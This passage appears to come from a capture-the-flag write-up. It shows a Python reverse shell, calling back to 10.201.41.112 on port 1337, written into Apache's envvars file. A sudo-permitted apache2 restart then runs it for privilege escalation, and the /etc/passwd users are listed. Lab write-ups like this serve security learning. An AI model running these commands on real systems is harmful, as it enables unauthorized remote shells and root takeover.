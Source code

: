 
```bash
echo '/usr/bin/python3 python -c '\''import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.201.41.112",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'\''' > envvars
```


```bash
anders@ip-10-201-0-156:/etc/apache2$ cat envvars
cat envvars
/usr/bin/python3 python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.201.41.112",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```bash
anders@ip-10-201-0-156:/etc/apache2$ sudo -l
sudo -l
Matching Defaults entries for anders on ip-10-201-0-156:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User anders may run the following commands on ip-10-201-0-156:
    (ALL) NOPASSWD: /sbin/service apache2 restart
anders@ip-10-201-0-156:/etc/apache2$ 


anders@ip-10-201-0-156:/etc/apache2$ sudo /sbin/service apache2 restart
sudo /sbin/service apache2 restart
```
























<br>
<h2 align="center">/etc/passwd</h2>
<p>

- <code>root</code><br>
- <code>anders</code><br>
- <code>devops</code></p>

<img width="1348" height="579" alt="image" src="https://github.com/user-attachments/assets/59f31230-3c14-4384-b402-fd05bf8ed574" />

<br>
<h2 align="center">/proc/self/cmdline</h2>
<p>
